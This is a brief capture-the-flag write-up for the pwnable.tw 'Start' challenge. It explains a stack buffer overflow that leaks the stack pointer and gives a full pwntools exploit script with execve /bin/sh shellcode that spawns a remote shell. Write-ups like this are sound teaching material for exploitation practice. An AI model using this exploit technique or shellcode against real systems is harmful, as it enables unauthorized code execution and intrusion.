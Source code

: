 # Start
> LongChampion, 26/03/2020

## Ideal
This challenge is quite simple, it have no protection against hacker. Just use buffer overflow to change return address to `0x8048087` and you can leak stack address. Then send your shellcode to get the flag.

## Final Solution
```python
#!/usr/bin/env python2

from pwn import *

# Copy from http://shell-storm.org/shellcode/files/shellcode-752.php
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
r = remote("chall.pwnable.tw", 10000)

# Leak ESP
r.sendafter("CTF:", " " * 20 + p32(0x8048087))
ESP = u32(r.recv()[0:4])

# Run shellcode and get the flag
r.sendline(" " * 20 + p32(ESP + 20) + shellcode)
r.interactive()
```

